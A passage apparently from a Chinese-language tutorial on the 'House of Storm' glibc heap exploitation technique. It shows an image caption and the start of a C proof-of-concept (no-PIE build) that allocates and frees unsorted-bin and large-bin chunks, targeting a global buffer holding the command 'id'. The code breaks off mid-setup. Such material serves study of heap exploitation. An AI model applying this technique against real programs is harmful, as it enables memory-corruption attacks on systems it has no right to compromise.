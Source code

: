 ![](2.png)

返回的指针：sh指向的地方。



#### poc2(no pie)

```c
// compiled: gcc -g -no-pie House_of_Strom.c -o House_of_Strom
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct {
    char padding[0x10]; // NULL padding
    char sh[0x10];
}global_container = {"","id"};

int main()
{
    char *unsorted_bin, *large_bin, *fake_chunk, *ptr;

    unsorted_bin = malloc(0x4e8); // size 0x4f0
    // 防止合并
    malloc(0x18);
    large_bin = malloc(0x4d8); // size 0x4e0
    // 防止合并
    malloc(0x18);

    // FIFO
    free(large_bin); // 先放小的chunk
    free(unsorted_bin);

    // large_bin 归位
```